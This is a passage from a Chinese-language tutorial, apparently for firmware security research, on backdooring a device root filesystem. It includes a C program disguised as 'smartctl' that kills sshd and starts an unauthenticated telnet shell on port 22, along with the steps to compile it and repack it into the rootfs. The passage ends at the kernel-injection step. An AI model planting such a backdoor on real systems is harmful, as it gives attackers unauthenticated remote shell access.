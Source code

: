 ```
    curl http://busybox.net/downloads/busybox-1.23.2.tar.bz2 | tar xjf -
    mkdir -p obj/busybox
    cd busybox-1.23.2
    make O=../obj/busybox defconfig #独立在新文件中进行相关配置
    cd ../obj/busybox
    make menuconfig

```  
  
#### 后门程序  
  
这里的话，因为我们要开启telnet服务作为shell，笔者的思路是将telnet开启然后开放在22端口，我们就可以利用这个端口作为一个shell，然后还要把telnet服务的给替换成我们的gdbserver调试端口，只需要关闭即可  
  
```
#include <stdio.h>

void shell(){
        system("/bin/busybox ls", 0, 0);
        system("/bin/busybox killall sshd && /bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22", 0, 0);
        return;
}

int main(int argc, char const *argv[])
{
        shell();
        return 0;
}
```  
  
  
需要给他静态编译一下  
  
```
gcc smartctl.c -static -o smartctl

```  
  
#### gdbserver  
  
```
https://github.com/hugsy/gdb-static

```  
  
  
编译之后我，把gdbserver和busybox还有我们编译的后门程序smartctl放到bin目录底下  
#### 重打包sudo chroot ./ sbin/ftar -cf bin.tar binsudo chroot ./ sbin/xz --check=sha256 -e bin.tarsudo find ./ | cpio -H newc -o > ../rootfs.rawcd ../sudo cat ./rootfs.raw | gzip > rootfs.gz  
#### 注入后门  
  
反编译内核文件flatkc  
  